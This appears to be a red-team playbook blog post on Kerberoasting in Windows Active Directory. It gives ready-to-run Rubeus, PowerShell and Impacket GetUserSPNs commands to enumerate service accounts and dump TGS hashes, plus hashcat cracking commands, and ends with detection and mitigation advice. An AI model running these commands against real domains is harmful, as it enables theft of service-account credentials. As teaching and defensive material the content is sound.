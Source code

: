 ```yaml
---
title: 'Kerberoasting'
date: 2025-09-23
permalink: /posts/kerberoasting/
tags:
  - red team playbook
---
```


# Kerberoasting

| Tactic (MITRE ATT&CK) | Technique (MITRE ATT&CK)  | Objective                                          | Permissions Required          | Common Tools              |
| --------------------- | ------------------------- | -------------------------------------------------- | ----------------------------- | ------------------------- |
| Credential Access     | T1558.003 - Kerberoasting | Getting service account's hash, and brute force it | Any Authenticated Domain User | Rubeus, Impacket, Hashcat |

---

## 1. Principle

Kerberoasting targets to attack Windows Active Directory's service accounts.

Properties of kerberos authentication:

1.  **SPN (Service Principal Name):** In AD, there is an unique identifier (SPN) for MSSQL/HTTP/Service on a network that uses Kerberos authentication. It links a service to a specific user or computer account. For example: `MSSQLSvc/sqlserver.corp.local:1433`is a SPN. It is for telling AD that a machine`sqlserver.corp.local`is running port 1433 which is for MSSQL (service).
2.  **Kerberos TGS:** A user with a valid Ticket Granting Ticket (TGT) can request a Ticket Granting Service (TGS) ticket for a specific service. 
3.  **Vulnerability:** Any authenticated user can request a TGS ticket, and the Key Distribution Center (KDC) doesn't validate if the user has permissions to access the service before issuing the ticket.
4.  **Attack Process:**
    - **Discovery:** Any domain user can query the SPN account in domain
    - **Request:** Attackers can pretend they want to access the specific server and send a TGS request to KDC
    - **Gain:** KDC would not verify do they authorized to access specific server. KDC will accept it if they are valid user in domain. Then, KDC will send you back the TGS.
    - **Crack:** When the attacker get the TGS, they can export it and use hashcat to brute force.

---



## 2. Attack Steps & Commands

### Method 1: Using Rubeus (in Windows target machine)

**Step 1: Discover SPN's user**

```powershell
.\Rubeus.exe kerberoast /stats /nowrap
```

*   This command will list out all "Kerberoastable" information

(Optional) If you can only use powershell

```
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)(!samAccountName=krbtgt)(!userAccountControl:1.2.840.113556.1.4.803:=2))").FindAll() | ForEach-Object {
    @{
        SamAccountName = $_.Properties.samaccountname[0];
        ServicePrincipalName = $_.Properties.serviceprincipalname
    }
}
```

**Step 2: Request and Export TGS ticket**

```powershell
# Dump all the service account's TGS hash and save it as txt
.\Rubeus.exe kerberoast /outfile:hashes.txt
```

* Sample of `hashes.txt`：

  ```
  $krb5tgs$23$*service_account$CORP.LOCAL$MSSQLSvc/sql.corp.local*$...[hash]...
  ```

**Step 3: Cracking**

*   Brute force the `hashes.txt` with Hashcat

```bash
hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt```
*   `-m 13100` is the format of kerberos 5 TGS-REP etype 23
```



# Method 2: Use Impacket in Linux of MacOS (Attack Machine)

If the attacker in the same network of domain

*   `GetUserSPNs.py` can do the same work (Discovery and Request)
    
    

```
-request: Request TGS
-dc-ip: Domain Controller's IP
corp.local/low_priv_user:password : use DC user to authenicate

python3 GetUserSPNs.py -request -dc-ip 192.168.1.10 corp.local/low_priv_user:Password123 -outputfile hashes.txt
```

**Step 3: Cracking**

*   Same as Rubeus

```bash
hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt
```



## 3. Defense & Mitigation

### Detection

1.  **Monitoring ID 4769:**
    *   event ID should be: `A Kerberos service ticket was requested`. A normal user should not be requesting a lot of TGS ticket. It should be detected as suspicious.
    *   Becareful that the `Service Name` is not  `krbtgt` and the `Ticket Encryption Type` should be `0x17` (RC4-HMAC)。It is easy to crack if using RC4 to encrypt.

2.  **Packet Analysis:**
    *   Some open source tools such as Zeek/Suricata. These ype of NIDS can monitor Kerberos traffic (Port 88)

### Prevention

1.  **Complex Password:**
    *   Follow strong password policy, using a complex password.
    *   **The best practice:** Use **Group Managed Service Accounts (gMSA)** [Kerberoasting-And-CyberAttack](https://petri.com/kerberoasting-ad-cyberattacks/)
        *   The password from gMSA is managed by Windows. It will be rotated and strong. 
2.  **Principle of Least Privilege:**
    - Ensure that only real service account has the permission of SPN
    - Ensure that no high permission user such as domain admin to use as service account
